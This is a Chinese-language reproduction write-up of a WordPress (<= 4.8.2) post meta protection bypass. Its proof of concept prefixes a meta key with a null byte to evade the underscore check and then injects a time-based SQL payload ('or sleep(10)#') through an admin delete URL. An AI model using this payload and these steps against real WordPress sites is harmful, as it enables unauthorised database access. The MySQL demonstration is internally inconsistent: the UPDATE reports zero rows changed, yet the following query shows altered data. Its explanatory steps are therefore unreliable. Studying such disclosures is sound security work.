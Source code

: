```yaml
---
title: Wordpress <= 4.8.2 POST META 校验绕过漏洞
id: zhfly3258
---
```


# Wordpress <= 4.8.2 POST META 校验绕过漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 一个MySQL的trick

1). 正常的条件查询语句

```
mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
+---------+---------+----------------+------------+
| meta_id | post_id | meta_key       | meta_value |
+---------+---------+----------------+------------+
|       4 |       4 | _thumbnail_id  | TESTC      |
+---------+---------+----------------+------------+
1 row in set (0.00 sec) 
```

2). 现在我们将_thumbnail_id修改成”\x00_thumbnail_id”

```
mysql> update wp_postmeta set meta_key = concat(0x00,'TESTC') where meta_value = '_thumbnail_id';
Query OK, 0 rows affected (0.00 sec)
Rows matched: 0  Changed: 0  Warnings: 0 
```

3). 再次执行第一步的查询

```
mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
+---------+---------+----------------+------------+
| meta_id | post_id | meta_key       | meta_value |
+---------+---------+----------------+------------+
|       4 |       4 |  _thumbnail_id | TESTC      |
+---------+---------+----------------+------------+
1 row in set (0.00 sec) 
```

我们可以发现依然可以查询出修改后的数据。

### POST META 校验绕过

我们来看下检查meta_key的代码，文件./wp-includes/meta.php：

```
function is_protected_meta( $meta_key, $meta_type = null ) {
    $protected = ( '_' == $meta_key[0] );
    /**
     * Filters whether a meta key is protected.
     *
     * [@since](/since) 3.2.0
     *
     * [@param](/param) bool   $protected Whether the key is protected. Default false.
     * [@param](/param) string $meta_key  Meta key.
     * [@param](/param) string $meta_type Meta type.
     */
    return apply_filters( 'is_protected_meta', $protected, $meta_key, $meta_type );
} 
```

is_protected_meta函数只检查了$meta_key的第一个字符是否以_开头。我们有了2.1的MySQL trick，想要绕过meta_key的检查就显得容易多了。

### poc

```
添加自定义字段，meta_key为’_thumbnail_id’的meta_value为’55 %1$%s or sleep(10)#’
在添加自定义栏目/字段时抓包，将_thumbnail_id替换为%00_thumbnail_id
访问/wp-admin/edit.php?action=delete&_wpnonce=xxx&ids=55 %1$%s or sleep(10)#，触发SQL注入漏洞
参考 
```